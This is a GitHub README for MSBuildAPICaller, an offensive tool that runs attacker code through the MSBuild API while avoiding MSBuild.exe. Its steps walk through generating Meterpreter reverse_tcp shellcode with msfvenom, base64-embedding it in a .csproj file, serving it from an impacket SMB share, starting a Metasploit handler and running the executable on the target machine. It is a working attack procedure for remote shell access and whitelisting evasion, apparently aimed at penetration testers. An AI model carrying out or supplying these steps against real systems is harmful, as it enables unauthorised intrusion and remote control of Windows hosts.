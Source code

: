 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 0: git clone this repo on your Kali Linux

```
git clone https://github.com/xax007/MSBuildAPICaller
cd MSBuildAPICaller
```

## Step 1: Build IEShim.cs on your Windows Machine
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs
```

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs

Example: `string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';`

## Step 3: Generate shellcode and replace in msbuildapicaller.csproj

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000
``` 
and convert shellcode from binary to base64 string  

```
base64 -w 0 -i /root/payload64.bin > payload64.txt
```  

Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj


## Step 4: Replace `AssemblyFile` variable in msbuildapicaller.csproj file with the location of your compiled dll from step 1

## Step 5: Build msbuildapicaller.cs

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs
```

## Step 6: start a SMB Server via impacket

```
impacket-smbserver pentestlab /msbuild -smb2support
```
## Step 7: start a Metasploit exploit handler
```
$ msfdb run
msf5> handler -p payload windows/x64/meterpreter/reverse_tcp -P 4444 -H 1.2.3.4
```
## Step 8: Execute msbuildapicaller.exe on target windows machine


reference: ![MSBUILD WITHOUT MSBUILD](https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/)
